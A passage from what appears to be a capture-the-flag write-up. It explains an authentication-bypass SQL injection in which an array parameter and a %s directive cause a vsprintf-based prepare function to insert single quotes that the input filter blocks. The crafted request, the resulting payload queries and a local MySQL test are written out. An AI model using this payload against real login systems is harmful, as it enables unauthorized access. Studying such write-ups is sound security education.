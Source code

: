 ```
password=mysecret%25s&name[]=neptunian1&name[]=neptunian1
```

* Now, that same first pass of preparation will end like this:

```sql
SELECT * FROM `users` where password=sha1('mysecret%s')
```

and after concatenating the name:

```sql
SELECT * FROM `users` where password=sha1('mysecret%s') and name=%s
```

Now we have 2 directives!
Since we sent an array to the name, it will format (using vsprintf) each one, in order and enclose it with - wait for it - single-quotes!

```sql
SELECT * FROM `users` where password=sha1('mysecret'neptunian1'') and name='neptunian2'
```

OK!! So we can't send single quotes in the values because it is filtered, but the second pass in the prepare function injects it for us! 
This version of the query will not work, since we generated an invalid SQL here, for simplicity purposes, but if we play a little bit more with the "first" name in the array, we can generate a valid query.

Let's change the first name from **neptunian1** to **) or 2<>(** and the second name to **default** (since is the existing user).

Now the generated query is the valid:

```sql
SELECT * FROM `users` where password=sha1('mysecret') or 2<>('') and name='default'
```

Let's try it in our local mysql docker from the challenge.

```
root@5ef6f217a963:/# mysql -u root -p                
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2
Server version: 5.7.36 MySQL Community Server (GPL)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use web
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> SELECT * FROM `users` where password=sha1('mysecret') or 2<>('') and name='default';
+----+---------+------------------------------------------+
| id | name    | password                                 |
+----+---------+------------------------------------------+
|  1 | default | 923b69c88c8af603e767f0a78f4e932170d6638b |
+----+---------+------------------------------------------+
1 row in set (0.00 sec)

mysql>
```